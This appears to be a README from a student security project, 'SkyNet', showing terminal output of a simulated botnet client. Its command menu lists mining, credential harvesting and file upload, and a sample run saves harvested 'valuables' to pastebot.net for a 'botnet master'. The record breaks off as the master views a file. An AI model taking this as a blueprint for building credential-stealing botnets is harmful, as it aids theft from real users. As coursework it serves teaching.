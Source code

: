Welcome to SkyNet :: Commanding the Legion
Part 2 :: Protecting the Castle

PS: This code sub-repository contains Part 1 + Part 2
======================================================

Usage -- uploading and viewing secrets
======================================

------ Uploading Valuables ------

C:\Users\Valency Colaco\Desktop\Project SKYNET\Part 1\Submission\Skynet Part 2>py bot.py

[+] Welcome to SkyNet
[+] Loading OS

+----------------------------------------+
|            SkyNet Commands             |
|                                        |
| p2p echo - Peer to Peer Echo           |
| p2p upload - Peer to Peer File Upload  |
| upload - Upload File to Server         |
| download - Download File from Server   |
| mine - Mine for Bitcoins               |
| harvest - Harvest User Credentials     |
| list - Show List of Files              |
| exit, quit - Exit Network              |
+----------------------------------------+

[+] Checking Port 1337

[+] Waiting for new messages
[+] Enter command: mine
[+] Bitcoin Mining Starting
[+] Mined and found Bitcoin address: 1iLWn8sTUI4TguqIsGpeOMGOSet

[+] Enter command: harvest
[+] Harvesting User Credentials Started
[+] Found credentials ('Tim', '4frJs1m8oor2')

[+] Enter command: upload
[+] Enter Filename: hello.test
[+] File Upload Starting
[+] Saved valuables to pastebot.net/hello.test for the botnet master

------ Viewing Secrets ------

C:\Users\Valency Colaco\Desktop\Project SKYNET\Part 1\Submission\Skynet Part 2>py master_view.py
[+] Botnet Master> Enter File Name in pastebot.net to view: hello.test.signed
[+] Botnet Master> File contents are as follows:
